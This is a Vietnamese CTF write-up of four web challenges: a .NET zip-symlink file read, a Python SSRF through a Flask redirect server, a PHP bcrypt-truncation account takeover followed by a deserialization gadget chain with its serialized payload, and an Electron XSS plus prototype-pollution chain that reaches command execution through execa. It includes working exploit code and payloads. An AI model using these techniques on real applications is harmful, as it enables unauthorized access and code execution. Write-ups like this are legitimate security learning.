# I love .NET

- Tổng quan về trang web:



- Trang web có 1 chức năng duy nhất đó là upload 1 file "***.zip***" lên đây và nó sẽ unzip file đó và thực hiện liệt kệ và đọc các file có trong đó

- Source code của bài:



- Bài này ở cơ chế check file, nó chỉ kiểm tra tên file sau khi extract có chứa các kí tự như "**..**" (Path Traversal) hay không mà không check xem file đó có phải 1 *Symbolic link* trỏ ra ngoài folder hay không.

- Ở mô tả của bài có ghi *he clearly failed 'Search Engine Optimization 101'*. nên mình thử truy cập vào "```/robots.txt```" và nó hiện ra thông tin như sau:



- Ta thấy các thông tin ở trên có ghi có thể file flag đã bị di chuyển tới 1 nơi nào đó, và ta cần đọc "*history*" để tìm ra nó

- Để ý thấy ở ```DockerFile```:



- Nó cấu hình ```WORKDIR /app``` đồng thời cấp quyền owner cho các path ```/app/uploads``` và ```/app/wwwroot```

- Theo các thông tin có được từ trên, ta sẽ thử upload 1 file zip gồm 3 symlink như sau:



- Gửi file "*probe.zip*" này lên:

- Ta sẽ nhận được 1 loạt các file có trong đó ta tìm được 1 file khá khả nghi là file "*/uploads/maintenance_backup_hidden_.../flag...txt*":


- Thử dùng '*/view/{id}/probe_app/uploads/...*' đọc file đó, ta lấy được flag:


# I love Python

- Trang web này có 1 tính năng cho phép user nhập vào 1 URL, server sẽ tải nội dung của URL đó và hiển thị lại cho user:



- Các hàm chính trong ```app.py```:







- Ta sẽ dựng 1 server mà khi truy cập vào sẽ redirect tới *http://127.0.0.1:8002/admin* có dạng như sau:

```python
from flask import Flask, redirect
app = Flask(__name__)
@app.route('/')
def exploit():
    return redirect('http://127.0.0.1:8002/admin', code=302)
if __name__ == '__main__':
    app.run(port=1234)
```


Sau đó sử dụng Ngrok để kết nối ra ngoài:



--> Copy URL ngrok kia ta nhận được flag:




# I love PHP

- Phân tích code file ```login.php```:



File ```update_password.php```:



File ```phase2.php```:



- Trước tiên ta cần lấy được tài khoản admin thông qua việc lợi dụng chức năng update password:

    ○ Do khi verify ở phần login, server sẽ chèn thêm ***RANDOM_SECRET*** vào sau password của admin nên dù ta có đổi password thành gì đi nữa mà không biết được giá trị secret đó thì vẫn bị sai.

    ○ Tuy nhiên, do mật khẩu sẽ được hash bằng ***bcrypt***, mà mình có đọc được 1 tài liệu nói rằng:



--> Nên ta chỉ cần cho password length độ dài ***> 72 byte*** thì *RANDOM_SECRET* sẽ bị bỏ qua

- Vì password ở đây có filter cần trong khoảng từ ```[1, 20]```

    ○ Ta cần tạo password là **emoji** vì emoji có độ dài 4 bytes 

- Ta gửi request sau:



- Giờ logout ra và đăng nhập lại với admin:



--> Thành công vào admin, ta đến với phase2 để tạo payload gadget của mình

- Như đã phân tích ở trên, giờ chiến lược của mình sẽ là 

    ○ Khởi tạo 1 object ngoài cùng là "***GetThingsFromCDA***" chứa *cmd* lúc này ***$getflag*** vẫn là *false* đồng thời ta vẫn chưa thỏa mãn điều kiện ```$receive = "NiceGamer?????"```

    ○ Tiếp theo ta khởi tạo 1 object *Friend()* bên trong chứa 1 object "*GetThingsFromCDA*" với thuộc tính ```$receive="NiceGamer?????"``` 

    ○ Lúc này khi *Friend* được unserialize, nó sẽ gọi ```__wakeup()```. Do nó chứa object nên sẽ gọi đến ```GetThingsFromCDA::__toString()```. Sau đó ```Friend::__toString()``` được gọi

    ○ Lúc này ```unset($tmp)``` --> Thực hiện destruct sớm sau đó ***$getflag*** được gán thành *true*

    ○ Khi script kết thúc, Destructor cuối cùng của *GetThingsFromCDA* lúc này đã thỏa mãn ***getflag=true*** và ***receive=NiceGamer????***

- Ta có chain tạo payload như sau:

```php
<?php
class GetThingsFromCDA {
    public $receive;
    public $cmd;
}
class Friend {
    public $msg;
}
$a = new GetThingsFromCDA();
$a->receive = "NiceGamer??????";
$a->cmd = "#"; 

$f = new Friend();
$f->msg = $a; 

$c = new GetThingsFromCDA();
$c->receive = $f; 
$c->cmd = "/*/??? /*"; 
echo serialize($c)."\n";
?>
```

Payload:

```txt
O:16:"GetThingsFromCDA":2:{s:7:"receive";O:6:"Friend":1:{s:3:"msg";O:16:"GetThingsFromCDA":2:{s:7:"receive";s:15:"NiceGamer??????";s:3:"cmd";s:1:"#";}}s:3:"cmd";s:9:"/*/??? /*";}
```

--> Ta nhận được flag:




# I love JavaScript

- File ```main.js```:



- File ```preload.js```:



- Gọi ***execa(cmd, args)*** để thực thi lệnh. Tuy nhiên thư viện ***Execa*** có 1 vấn đề đó là nếu Execa bị can thiệp vào ```Options``` (qua *Prototype Pollution*), lệnh thực thi sẽ bị thay đổi

- File ```renderer.js```:



- ```commentsList.innerHTML = …``` lấy "*comment.text*" (user input) và chèn thẳng vào HTML bằng ```$(comment.text)``` mà không qua sanitize gì cả

--> ***XSS***

- Khi bấm vào nút '*whoami*' nó gọi ```window.electronAPI.checkEnvironment()``` --> Trigger '***execa***' ở *preload*
    
- Đầu tiên ta sẽ xác nhận lại xem có đúng XSS được không: 

```html 
<h1>hellooo</h1>
```




--> Xác nhận XSS được

- Tiếp theo mình sẽ thực hiện *Prototype Pollution* thuộc tính *shell* vào ```Object.prototype```



- Thử các object khác với thuộc tính *shell*:



--> Pollution thành công, giờ tất cả các object trong môi trường đều có ```.shell = 'calc.exe'``` (Bao gồm cả *preload.js* - nơi chạy "*execa*" thực thi lệnh hệ thống)

- Ta có payload như sau:

```javascript
 {
    const btns = document.querySelectorAll('button');
    btns.forEach(b => {
      if(b.textContent === 'whoami') b.click();
    });
  }, 500);
"></img>
```

- Khi ta send payload này, code sẽ từ động tìm '*whoami*' và thực hiện ```b.click()```. Lúc này hàm ```window.electronAPI.checkEnvironment()``` trong *preload.js* sẽ được gọi 

--> Hàm này sẽ gọi '***execa(cmd, args)***'

- Mình sẽ nhìn qua 1 chút về thư viện ```Execa``` để hiểu rõ hơn cách mà nó hoạt động:

    ○ Đầu tiên đến với đoạn code '```index.js```' của thư viện Execa:



- Ở phần xử lý arguments của execa, nó sử dụng "***crossSpawn.parse()***" để normalize các arguments, cụ thể là hàm "***parse()***" trong file "***parse.js***" của *cross-spawn*

    § Ta chú ý dòng '***options = Object.assign({}, options)***':  ở đây sẽ tạo 1 bản sao của options để nếu có chỉnh sửa gì thì không ảnh hưởng đến options bên ngoài

    § Nếu ta gọi "***execa('cmd', […])***" (không truyền options)  --> Biến Options sẽ có giá trị '*undefined*'

    --> ```Options = Object.assign({}, undefined) = {}```

    § Mà trong JS, ```{}``` mình vừa thực hiện *pollution* ở trên thì ```{}.shell === 'calc.exe'```


--> Hiện tại hàm ```parse(command, args, options)``` sẽ return về ***parsed*** (do *options.shell* là string)
        
- Đến với phần xử lý chính của '***execa***':


- ```const parsed = handleArguments(…)```: Đây là bước đầu mà ta nhập các giá trị *options* bị ô nhiễm vào ('***calc.exe***')

- Hàm này gọi "*cross-spawn.parse()*' như mình đã phân tích trước đó, "*cross-spawn*" sẽ thấy "***Object.prototype.shell***" ('**calc.exe**') và đẩy nó vào '***parsed.options.shell***'

- Lúc này biến '*parsed.options*' đã chứa dữ liệu ta gửi vào

- Sau đó "***spawned = childProcess.spawn()***"

- "***execa***" chuyển hết dữ liệu cho Node.js gốc (chứa cả *parsed.options*)

- Node.js thấy "***parsed.options.shell***" là "**calc.exe**" nên thay vì chạy trực tiếp file thì nó chạy lệnh:

```bash
calc.exe "cmd /c whoami"
```

--> Ta RCE thành công:

